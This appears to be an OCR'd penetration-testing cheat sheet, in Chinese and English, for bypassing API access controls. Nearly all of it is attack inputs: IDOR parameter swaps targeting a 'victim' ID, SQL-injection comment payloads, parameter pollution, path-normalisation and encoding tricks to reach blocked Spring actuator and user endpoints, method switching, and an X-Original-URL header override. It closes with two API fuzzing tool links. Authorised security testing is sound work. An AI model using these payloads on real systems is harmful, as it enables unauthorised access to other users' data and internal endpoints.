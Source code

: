 - {"id": 1 } -> {"id": {"id": 1 } }   
✅  
  
- {"user_id": "*"}  
  
- {"user_id": "-1"}  
  
- {"user_id": 2-1}  
  
- {"user_id": "1' -- "}  
  
- {"user_id": "1\" -- "}  
  
- /api/profile?id=&id=  
  
- POST请求同理  
  
- /actuator/env -> 给拦截或者无响应  
  
- //actuator////env  
  
- //actuator\\env  
  
- /Tao//test/../../actuator/env  
  
- 在路劲后加?,/,??,#,%20......  
  
- /api/v2/user/123 —> 403  
  
- /api/v2/user/123%23 —> 200  
  
- /?user_id=1 -> /?user_id=user@test.com √  
  
- POST -> PUT  
  
- 关键词替换：/download_file -> /export_file  
  
- 从结果中找keyword进行替换查询！  
  
- GET /api_v1/messages --> 401  
  
- GET /api_v1/messages?user_id=victim_uuid --> 200  
  
- Bypassing Endpoints by 'Aaryan' : Bypass 403 on /api/v1/user/id  
  
- /api/v1/user/id.json  
  
- /api/v1/user/id?  
  
- /api/v1/user/id/  
  
- /api/v2/user/id  
  
- /api/v1/user/id&accountdetail  
  
- /api/v1/user/yourid&victimid  
  
- X-Original-URL: /api/v1/user/id/  
  
## Tools  
- https://github.com/rtcatc/Packer-Fuzzer  
  
- https://github.com/API-Security/APIKit ✨  
  